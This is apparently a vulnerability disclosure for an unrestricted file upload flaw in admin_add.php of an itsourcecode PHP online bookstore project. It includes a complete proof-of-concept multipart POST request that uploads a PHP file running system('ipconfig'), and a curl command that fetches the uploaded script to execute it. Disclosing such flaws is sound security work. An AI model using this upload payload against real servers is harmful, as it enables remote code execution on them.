




# Itsourcecode Online-Bookstore-Project-In-PHP-Source-Code v1.0 admin_add.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online-Bookstore-Project-In-PHP-Source-Code 
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/online-book-store-project-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Lanxiy7th
## Vulnerable File
+ admin_add.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2021/03/Online-Bookstore-Project-In-PHP-Source-Code.zip
# PROBLEM TYPE
## Vulnerability Type
+ Unrestricted Upload
## Root Cause
+  In line 30 of the admin_add.php file,The input obtained through $- FILES is directly used to determine the storage location of the file, without conducting a complete security check. The specific code snippet is as follows:
+ 
## Impact
+ Attackers can exploit this vulnerability to upload malicious files without restriction, which can lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Exploiting malicious files can lead to remote attacks on RCE
# DESCRIPTION
+ The file upload operation was triggered on line 30 of the "admin_add.php" file, and the uploaded file was received using the "$- FILES" variable. Due to the lack of appropriate input validation and cleaning, remote attackers only need to use regular user login to pass malicious payloads through this file upload function, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
```
POST /admin_add.php HTTP/1.1
Host: 192.168.210.199:1213
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------354751125914566749201264572370
Content-Length: 1086
Origin: http://192.168.210.199:1213
Connection: close
Referer: http://192.168.210.199:1213/admin_add.php
Upgrade-Insecure-Requests: 1
Priority: u=1

-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="isbn"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="title"

123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="author"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="image"; filename="321.php"
Content-Type: application/octet-stream

<?php system("ipconfig"); ?>
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="descr"

1231231
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="price"

123123
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="publisher"

12312312
-----------------------------354751125914566749201264572370
Content-Disposition: form-data; name="add"

Add new book
-----------------------------354751125914566749201264572370--

```
+ 
+ 
## I successfully executed the PHP script on the terminal
```bash 
curl http://192.168.210.199:1213/bootstrap/img/321.php
```
+ 